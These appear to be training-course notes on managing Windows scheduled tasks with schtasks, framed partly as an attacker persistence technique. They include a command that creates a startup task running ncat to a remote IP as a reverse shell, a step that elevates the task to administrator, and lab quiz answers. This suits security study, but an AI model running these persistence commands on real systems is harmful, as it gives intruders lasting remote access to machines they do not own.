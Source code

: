 ### **What Are Scheduled Tasks?**
- **Purpose**: Automate repetitive tasks without manual intervention.
- **Uses**:
    - System maintenance
    - Running applications/scripts
    - Persistence mechanism for attackers
- #### **Triggers for Scheduled Tasks**
	- Scheduled tasks execute based on **triggers**, including:
		- **System Events** (e.g., logon, boot, session state changes)
		- **Time-Based Triggers** (e.g., daily, weekly, monthly)
		- **Idle Time Triggers** (when the system is idle)
- #### **Managing Scheduled Tasks with `schtasks`**
	- The `schtasks` command allows querying, creating, modifying, and deleting scheduled tasks.



### **1. Viewing Existing Scheduled Tasks**
- #### **Query Syntax**
```cmd
SCHTASKS /Query /V /FO LIST
```
- **Parameters:**
	- `/V` → Verbose output (detailed view)
	- `/FO list` → Formats output as a list (other formats: `table`, `csv`)
- **Example Output:**
```cmd
TaskName:       \Check Network Access
Task To Run:    C:\Windows\System32\cmd.exe ping 8.8.8.8
Schedule Type:  At system startup
Run As User:    tru7h
Scheduled Task State: Enabled
```



### **2. Creating a New Scheduled Task**
- #### **Create Syntax**
```cmd
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"
```
- **Parameters:**
	- `/sc ONSTART` → Trigger at system startup
	- `/tn "My Secret Task"` → Task name
	- `/tr <command>` → Action to execute
- ✅ **Example Use Case:**
	- Creates a scheduled task to execute `ncat.exe` upon system startup, providing **persistent shell access**.



### **3. Modifying an Existing Task**
- #### **Change Syntax**
```cmd
schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"
```
- **Parameters:**
	- `/tn` → Task name to modify
	- `/ru` → Change the user running the task
	- `/rp` → Specify the password
- ✅ **Example Use Case:**
	- Change task to run as `administrator`, elevating privileges.
- #### **Verify Changes**
```cmd
schtasks /query /tn "My Secret Task" /V /fo list
```
- **Expected Output:**
```cmd
Task To Run:  C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Run As User:  SYSTEM
Scheduled Task State: Enabled
```



### **4. Running a Scheduled Task Immediately**
```cmd
schtasks /run /tn "My Secret Task"
```
- ✅ **Example Use Case:**
	- Manually triggers the scheduled task to execute immediately.



### **5. Deleting a Scheduled Task**
- #### **Delete Syntax**
```cmd
schtasks /delete /tn "My Secret Task"
```
- **Prompt:**
```
WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```
- To **force delete** without confirmation:
```cmd
schtasks /delete /tn "My Secret Task" /F
```
- ✅ **Example Use Case:**
	- Removes the task from the system.



### **Key Takeaways**
- **`schtasks`** is used to manage Windows scheduled tasks.
- **Querying tasks** helps identify existing automated actions.
- **Creating/modifying tasks** allows automation or potential persistence (e.g., reverse shell on reboot).
- **Deleting tasks** ensures cleanup after execution.
- **Proper syntax and parameters** are crucial for success.



### Questions
- True or False: A scheduled task can be set to run when a user logs onto a host?
	- True
- Access the target host and take some time to practice working with Scheduled Tasks. Type COMPLETE as the answer when you are ready to move on.
	- COMPLETE